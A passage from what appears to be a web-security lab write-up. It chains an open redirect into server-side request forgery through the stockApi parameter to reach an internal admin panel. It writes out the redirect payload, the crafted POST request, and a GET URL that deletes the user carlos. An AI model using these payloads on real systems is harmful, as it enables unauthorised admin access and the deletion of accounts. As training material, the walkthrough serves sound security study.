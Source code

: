 We test the folowing payload and find the open redirection:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/8992df45aba7a609243534f3ad0effcc.png)

Now we will create a new POST request using this payload as the stockApi
parameter:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /product/stock HTTP/2
...

stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/2393bbdf510f673ad5e60c8a0b8d6333.png)

Reading the HTML code we see the user carlos can be deleted with a GET request
like http://192.168.0.12:8080/admin/delete?username=carlos
